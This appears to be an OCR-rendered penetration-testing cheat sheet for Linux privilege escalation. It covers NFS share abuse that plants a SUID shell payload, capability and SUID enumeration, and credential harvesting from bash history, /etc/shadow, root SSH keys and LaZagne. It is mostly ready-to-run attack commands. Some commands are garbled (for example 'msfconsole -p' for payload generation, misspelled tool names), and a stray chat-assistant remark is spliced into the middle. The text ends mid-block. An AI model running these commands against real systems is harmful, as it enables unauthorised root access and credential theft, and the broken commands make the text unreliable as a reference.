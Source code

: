 

---

# Linux Privilege Escalation

## NFS Exploit

To check if the attacker machine mount is possible:
```sh
cat /etc/exports
```

Use Nmap to check the NFS mount:
```sh
nmap --script=nfs-showmount 10.10.x.x
```
*(Note: (sync) means write)*

### To set up the mount point on a local machine and create a temporary directory:

1. On the local machine, create a temporary directory:
    ```sh
    mkdir /tmp/nfs
    ```

2. Mount the NFS share:
    ```sh
    sudo mount -o rw,vers=3 -t nfs 10.10.x.x:/tmp /tmp/nfs
    ```

3. Navigate to the `/tmp` directory.

### Create a Metasploit Linux exploit with SUID bit set:

1. On the local machine with root privileges, generate the exploit:
    ```sh
    msfconsole -p linux/x86/exec CMD="/bin/bash -p" -f elf -o /tmp/nfs/shell.elf
    ```

2. Give the SUID bit permission to the `shell.elf` file:
    ```sh
    chmod +s /tmp/nfs/shell.elf
    ```

### Execute the `shell.elf` file on the compromised machine:

1. Navigate to the compromised machine and execute the file:
    ```sh
    ./shell.elf
    ```

---

# Exploit Capabilities

## After logging into the compromised machine, check if the capabilities exist:

### Using LinePeas:

To check capabilities:
```sh
./linepeas
```

### Manual Approach:

1. To check the capabilities for SUID bit:
    ```sh
    getcap -r / 2>/dev/null
    ```

2. To find files with SUID bit:
    ```sh
    find / -perm /4000 2>/dev/null
    ```

3. To check the process capabilities:
    ```sh
    ps -aux | grep root
    ```

4. Check any process ID which is running as root:
    ```sh
    cat /proc/477/status | grep -i cap
    ```

5. Convert the hex value to ASCII value:
    ```sh
    capsh --decode=000003ffffffff
    ```

### Use GTFOBins to Exploit:

---

It looks like you're compiling a list of commands and steps for a penetration testing task, focusing on finding and exploiting sensitive credentials. Let's break down the steps and ensure they are clear and actionable.

## Sensitive Credentials

1. **Read Bash History:**
   ```bash
   cat ~/.*history | less
   ```

2. **Configuration Files:**
   ```bash
   find / -type f -exec grep -i -l "PASSWORD\|PASSWD" {} 2>/dev/null
   locate config.php
   locate password
   locate passwd
   cat /var/mail/*
   cat /var/spool/mail/*
   ```

3. **Search for Passwords:**
   ```bash
   grep -color=auto -rnw '/' -ie "PASSWORD\|PASSWD" -color=always 2>/dev/null
   ```

4. **Hashes in Password/Shadow:**
   ```bash
   cat /etc/passwd
   cat /etc/shadow
   ```

5. **Credentials in Memory:**
   ```bash
   # This step typically involves using tools like `strings` or `grep` on memory dumps.
   ```

6. **Browser Credentials:**
   ```bash
   # This step typically involves using tools like `LaZagne` or `Firefox Decrypt`.
   ```

7. **SSH Key-Based Authentication Check:**
   ```bash
   cat /root/.ssh/id_rsa
   cd /root
   cd .ssh
   ls -al
   cat root_key
   ```

8. **Copy and Save SSH Key:**
   ```bash
   # On your local machine:
   chmod 600 id_rsa
   ```

9. **Connect Using SSH Key:**
   ```bash
   ssh -i id_rsa root@10.10.X.X -oHostKeyAlgorithms=+ssh-rsa -oPubkeyAcceptedKeyTypes=+ssh-rsa
   ```

10. **Using LaZagne:**
    ```bash
    # Download LaZagne from GitHub
    git clone https://github.com/AlessandroZ/LaZagne.git
    cd LaZagne
    python laZagne.py all
    ```



- Browsers (Chrome, Firefox, etc.)
- Email clients (Outlook, Thunderbird, etc.)
- System credentials (Windows, Linux, etc.)

## Example Commands

- **Retrieve all passwords:**
  ```bash
  python laZagne.py all
  ```

- **Retrieve passwords from a specific browser:**
  ```bash
  python laZagne.py browsers
  ```

- **Retrieve passwords from a specific email client:**
  ```bash
  python laZagne.py email
 
